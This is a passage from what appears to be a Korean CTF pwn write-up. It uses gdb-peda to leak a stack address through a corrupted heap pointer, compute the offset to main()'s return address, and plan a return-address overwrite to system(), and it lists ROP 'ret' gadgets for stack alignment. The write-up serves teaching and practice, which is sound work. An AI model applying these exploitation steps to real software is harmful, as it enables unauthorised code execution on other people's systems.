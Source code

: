 ```bash
R15: 0x0
EFLAGS: 0x207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
```

`rbx`가 가리키는 값이 `0x602268`로 바뀌었다. 이 상태에서 `print_user()`를 호출하면 `0x602268`, 즉 `cur`에 저장된 값이 출력될 것이다.

```bash
gdb-peda$ c
Continuing.
User:  ����
Age: 0
```

알아볼 순 없지만 아무튼 스택 릭에 성공했다!

---

출력된 주소와 `main()`의 return address의 주소와의 차이를 계산하면 return address의 주소도 알 수 있다. `rip`가 `main()`에 위치하도록 하여 return address의 주소를 구하자.

```bash
gdb-peda$ i r rbp
rbp            0x7fffffffdfa0      0x7fffffffdfa0
```

`rbp`에 `0x8`을 더하면 return address의 주소가 된다. `cur`에 저장된 값, 즉 leak되어 나오는 값은 `0x7fffffffcf20`이다. 두 주소의 차이를 구하자.

```bash
gdb-peda$ p 0x7fffffffdfa8 - 0x7fffffffcf20
$86 = 0x1088
```

우리가 덮어써야 할 주소는 알았지만 문제가 있다. `edit_usr()`를 호출하면 원래는 청크에 저장된 값이 바뀌어야 하지만, 청크의 주소가 저장되어 있어야 할 공간에 `cur`의 주소가 저장되어 있기 때문에 여기서 입력한 이름은 `cur`로 들어가게 된다. 따라서 앞에서 leak한 스택 주소를 name으로 넣어 주어야 `cur`의 값이 변하지 않는다. 그리고 앞에서와 같은 방식으로 `cur`의 주소가 저장된 공간을 `main()`의 return address의 주소로 덮어주면, `edit_usr()`를 한 번 더 호출했을 때 `main()`의 return address를 자유롭게 바꿀 수 있을 것이다.

이렇게 했더니 `system()`이 호출되는 과정에서 스택 정렬 때문에 SIGSEGV가 터져서, `"ret"` 가젯을 하나 넣어 주었다.

```bash
gdb-peda$ ropsearch "ret"
Searching for ROP gadget: 'ret' in: binary ranges
0x004006fe : (b'c3')	ret
0x00400831 : (b'c3')	ret
0x00400879 : (b'c3')	ret
0x0040089b : (b'c3')	ret
0x0040096e : (b'c3')	ret
0x004009bd : (b'c3')	ret
0x00400a78 : (b'c3')	ret
0x00400ac8 : (b'c3')	ret
0x00400b5d : (b'c3')	ret
0x00400b70 : (b'c3')	ret
0x00400b83 : (b'c3')	ret
0x00400c05 : (b'c3')	ret
0x00400c5f : (b'c3')	ret
0x00400c74 : (b'c3')	ret
0x00400c81 : (b'c3')	ret
0x00400c8c : (b'c3')	ret
```

---
